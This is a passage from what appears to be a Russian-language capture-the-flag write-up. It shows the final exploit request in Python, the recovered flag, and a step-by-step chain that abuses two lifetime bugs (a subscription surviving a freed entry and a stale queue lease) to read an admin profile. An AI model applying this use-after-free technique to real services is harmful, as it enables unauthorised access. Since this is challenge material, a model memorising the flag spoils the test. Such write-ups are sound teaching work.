



Точный запрос:

```text
X:
  H = admin_handle
  R = export_secret
  I = handoff_proof
```

Финальный запрос через helper из раздела 3:

```python
reply, events = request(
    owner, 3, "X",
    ("H", admin_handle),
    ("R", export_secret),
    ("I", handoff_proof),
)

profile = b"".join(
    value
    for values in reply.values()
    for value in values
)
print(profile.decode(errors="replace"))
```

Ответ `X` содержит байты административного профиля:

```text
flag{y0ur_f4c3_1s_y0ur_t0k3n}
```

## 14. Полная логическая цепочка

В результате ни один адрес или opcode мне не требовалось знать заранее:

```text
меню показывает B
        |
справка говорит, что буква команды является opcode
        |
ascii B = 66
        |
Alt+T -> case 66
        |
dispatcher дает обработчики B/P/W/D/C и скрытые Q/X
        |
P показывает layout handle и literal rol
        |
два соседних handle раскрывают rotation и mask
        |
B показывает layout plan и проверочный байт
        |
W сохраняет bucket, slot и pointer
        |
D освобождает entry, но не удаляет подписку
        |
C phase 1 кладет receipt в освобожденный slot
        |
событие E раскрывает route, class, order и два секрета
        |
C phase 2 кладет admin profile в отслеживаемый slot
        |
Q дает handoff proof через stale lease
        |
X возвращает административный профиль с флагом
```

Уязвимость состоит из двух независимых lifetime ошибок:

1. подписка переживает освобождение profile entry;
2. lease переживает возврат и повторное использование queue node.

Криптографические преобразования не ломаются brute force. Они обратимы или раскрываются через структурированные соседние значения, а проверки plan и receipt отбрасывают неправильные кандидаты.
